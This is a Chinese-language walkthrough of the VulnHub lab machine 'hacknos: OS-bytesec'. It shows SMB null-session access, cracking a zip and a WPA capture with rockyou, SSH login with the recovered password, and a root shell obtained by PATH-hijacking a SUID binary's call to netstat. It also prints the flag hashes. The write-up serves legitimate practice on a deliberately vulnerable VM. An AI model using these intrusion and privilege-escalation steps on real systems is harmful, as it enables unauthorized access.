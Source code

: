# HACKNOS: OS-BYTESEC

2025.02.17 https://www.vulnhub.com/entry/hacknos-os-bytesec,393/

## Ip

192.168.5.40

## Scan

```
PORT     STATE SERVICE
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2525/tcp open  ms-v-worlds
```

enum4linux-ng -a 192.168.5.40 先看看 445 smb 有没有什么共享出来的，发现 1 个枚举出的用户：smb，2 个 smb 共享路径：`print$、IPC$`。

80 web 首页底部有提示：####################GET#####smb##############free 提示 smb 自由访问，表示可能不需要密码就可以访问。

尝试 smmb 空密码进行登陆：

```
smbmap -H 192.168.5.40 -u smb -p ''

Disk                                                  	Permissions	Comment
----                                                  	-----------	-------
print$                                            	READ ONLY	Printer Drivers
IPC$                                              	NO ACCESS	IPC Service (nitin server (Samba, Ubuntu))
```

print$ 可以读取，smbclient 进行登陆：

```
smbclient //192.168.5.40/print$ -U smb -p

W32ALPHA                            D        0  Mon Oct 21 23:31:47 2019
W32X86                              D        0  Mon Oct 21 23:31:47 2019
W32MIPS                             D        0  Mon Oct 21 23:31:47 2019
W32PPC                              D        0  Mon Oct 21 23:31:47 2019
x64                                 D        0  Mon Oct 21 23:31:47 2019
WIN40                               D        0  Mon Oct 21 23:31:47 2019
IA64                                D        0  Mon Oct 21 23:31:47 2019
COLOR                               D        0  Mon Oct 21 23:31:47 2019
```

现实了一堆文件夹，没什么有用信息。

在尝试读取下 smb 用户的文件夹，空密码登陆：

```
smbclient //192.168.5.40/smb -U smb -p
```

ls 后看到 2 个文件：main.txt 和 safe.zip 将其下载。main.txt 中的内容为 helo，不是 zip 解压密码，尝试 john + rockyou 进行解密，得到解压密码 hacker1 解压后，是一个图片和一个 wireshark 抓包文件。

先看看图片有没有隐写，没发现隐写。在看看那个抓包文件，是一个无线协议抓包文件，尝试使用 ng 进行破解:

```
aircrack-ng eg-01.cap -w /usr/share/wordlists/rockyou.txt

KEY FOUND! [ snowflake ]
```

同时发现 SSID 为 blackjax，可能是这个用户的 ssh 登陆密码，尝试登陆端口 2525 ，登陆成功：

```
ssh -p 2525 blackjax@192.168.5.40  # 输入密码 snowflake
```

首先得到了 user flag:

```
blackjax@nitin:~$ cat user.txt
  _    _  _____ ______ _____        ______ _               _____
 | |  | |/ ____|  ____|  __ \      |  ____| |        /\   / ____|
 | |  | | (___ | |__  | |__) |_____| |__  | |       /  \ | |  __
 | |  | |\___ \|  __| |  _  /______|  __| | |      / /\ \| | |_ |
 | |__| |____) | |____| | \ \      | |    | |____ / ____ \ |__| |
  \____/|_____/|______|_|  \_\     |_|    |______/_/    \_\_____|



Go To Root.

MD5-HASH : f589a6959f3e04037eb2b3eb0ff726ac
```

枚举后，发现了一个 suid 文件 /usr/bin/netscan GTFOBins 中没有利用方式。

看看他的源码，使用 strings 先看看可见字符，发现里面使用了 netstat -antp 这里的 netstat 没有使用绝对路径，这里可以 PATH 劫持：

```
echo '/bin/bash -p' > /tmp/netstat
chmod +x /tmp/netstat
export PATH=/tmp:$PATH
/usr/bin/netscan
```

运行后直接得到了 root 权限：

```
root@nitin:/tmp# cd /root
root@nitin:/root# ls
root.txt
root@nitin:/root# cat root.txt
    ____  ____  ____  ______   ________    ___   ______
   / __ \/ __ \/ __ \/_  __/  / ____/ /   /   | / ____/
  / /_/ / / / / / / / / /    / /_  / /   / /| |/ / __
 / _, _/ /_/ / /_/ / / /    / __/ / /___/ ___ / /_/ /
/_/ |_|\____/\____/ /_/____/_/   /_____/_/  |_\____/
                     /_____/
Conguratulation..

MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b

Author : Rahul Gehlaut

Contact : https://www.linkedin.com/in/rahulgehlaut/

WebSite : jameshacker.me
```
